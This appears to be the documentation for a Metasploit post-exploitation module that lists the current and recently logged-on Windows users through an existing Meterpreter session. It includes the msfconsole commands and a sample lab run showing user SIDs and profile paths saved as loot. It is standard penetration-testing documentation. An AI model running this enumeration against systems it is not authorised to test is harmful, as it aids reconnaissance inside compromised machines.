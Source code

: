 ## Vulnerable Application

This module will enumerate current and recently logged on Windows users.

## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/gather/enum_logged_on_users`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

### CURRENT

Enumerate currently logged on users. (default: `true`)

### RECENT

Enumerate recently logged on users. (default: `true`)


## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

```
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49196) at 2019-12-13 04:36:54 -0700

msf exploit(multi/handler) > use post/windows/gather/enum_logged_on_users
msf post(windows/gather/enum_logged_on_users) > set SESSION 1
SESSION => 1
msf post(windows/gather/enum_logged_on_users) > run

[*] Running module against TEST-PC (192.168.1.10)

Current Logged Users
====================

 SID                                            User
 ---                                            ----
 S-1-5-21-3113421791-4205713440-112141152-1000  TEST-PC\TEST


[+] Results saved in: /root/.msf4/loot/20191213054456_default_192.168.1.10_host.users.activ_424278.txt

Recently Logged Users
=====================

 SID                                            Profile Path
 ---                                            ------------
 S-1-5-18                                       %systemroot%\system32\config\systemprofile
 S-1-5-19                                       C:\Windows\ServiceProfiles\LocalService
 S-1-5-20                                       C:\Windows\ServiceProfiles\NetworkService
 S-1-5-21-3113421791-4205713440-112141152-1000  C:\Users\TEST


[+] Results saved in: /root/.msf4/loot/20191213054458_default_192.168.1.10_host.users.recen_365577.txt
[*] Post module execution completed
```
